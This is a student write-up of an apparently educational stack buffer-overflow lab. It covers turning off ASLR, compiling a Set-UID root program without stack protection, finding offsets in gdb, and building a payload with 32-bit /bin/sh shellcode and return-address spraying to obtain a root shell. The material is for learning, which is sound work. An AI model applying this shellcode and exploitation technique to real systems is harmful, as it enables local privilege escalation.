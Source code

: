 # Trabalho realizado na Semana #5

>We firstly turned off OS protections with the following code:
>```
>$ sudo sysctl -w kernel.randomize_va_space=0
>$ sudo ln -sf /bin/zsh /bin/sh
>```

## Task 1

>We ran the following program:
>```
>char *name[2];
>name[0] = "/bin/sh";
>name[1] = NULL;
>execve(name[0], name, NULL);
>```
>Then, we did the same with the 32 and 64 bits ones.
>
>In all cases, a shell was open in the same directory where the program was executed.

## Task 2

>By studying the code in the stack.c program, we realized that `strcopy` does not verify `str` size (517 bytes), which is copied to the array (100 bytes). Therefore, a buffer overflow occurs.
>
>We changed the program owner to `root` and activated `Set-UID` and deactived StackGuard and protections against code execution called by the stack.
>```
>$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
>$ sudo chown root stack
>$ sudo chmod 4755 stack
>```

## Task 3

>To exploit the vulnerability, we created an empty `badfile` and executed the vulnerable code in debug mode, so we could figure out the `bof()` function's return address compared to the start of the buffer.
>
>To that end, we used `gbd` and used a breakpoint in the `bof()` function.
>```
>$ touch badfile
>$ gdb stack-L1-dbg
>gdb-peda$ b bof 
>Breakpoint 1 at 0x12ad: file stack.c, line 16.
>gdb-peda$ run 
>...
>Breakpoint 1, bof (str=0xffffcf43 "V\004" as stack.c:16)
>16 {
>gdb-peda$ next
>...
>gdb-peda$ p $ebp 
>$1 = (void *) 0xffffcb18
>gdb-peda$ p &buffer 
>$2 = (char (*)[100]) 0xffffcaac
>gdb-peda$ quit
>```
>
>In the given python program, we made the following changes:
>
>The `shellcode` variable was changed to the 32-bits that executes the shell.
>```
>shellcode= (
> "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
> "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
> "\xd2\x31\xc0\xb0\x0b\xcd\x80"
>).encode('latin-1')
>```
>
>The `start` variable, so that the shellcode would go to the end of the array.
>```
>start = 517-len(shellcode)  
>```
>
>Calculated the new return address.
>```
>ret = 0xffffcb18 + start 
>```
>
>With the 2 obtained addresses, we calculated the return address based on the start of the array (offset)
>```
>offset = 0xffffcb18 - 0xffffcaac + 4 
>```
>
>Executing this program generated a `badfile` file.
>
>Finally, we executed the program that creates the buffer overflow and boots a shell with root permissions.

## Task 4

>To exploit the vulnerability, we created an empty `badfile` and executed the vulnerable code in debug mode, so we could figure out the `bof()` function's return address compared to the start of the buffer.
>
>To that end, we used `gbd` and used a breakpoint in the `bof()` function.
>```
>$ touch badfile
>$ gdb stack-L2-dbg
>gdb-peda$ b bof 
>Breakpoint 1 at 0x12ad: file stack.c, line 16.
>gdb-peda$ run 
>...
>Breakpoint 1, bof(...)
>...
>gdb-peda$ next
>...
>gdb-peda$ p $ebp 
>$1 = (void *) 0xffffcb18
>gdb-peda$ quit
>```
>
>In the given python program, we made the following changes:
>
>The `shellcode` and the `start` variables were not changed from Task 3.
>
>Because the buffer size range is 100 to 200, we added 200 instead of the `start` variable so we "spray" the first 200 bytes of the buffer with Return Addresses to make sure we hit the right one. This technique is known as *spraying*.
>
>```
>ret = 0xffffcb18 + 200
>```
>
>We used the same calculation from Task 3 for the `offset` variable.
>```
>offset = 112 
>```
>
>Instead of putting the return address in the [112:116] memory slot, we put the return address in every memory slot from 112 to 212, because of the 100 to 200 buffer size range.
>
>```
>for i in range(offset, offset + 100, 4)
>   content[i:i+L] = (ret).to_bytes(L,byteorder='little')
>```
>Executing this program generated a `badfile` file.
>
>Finally, we executed the program that creates the buffer overflow and boots a shell with root permissions.

## CTF

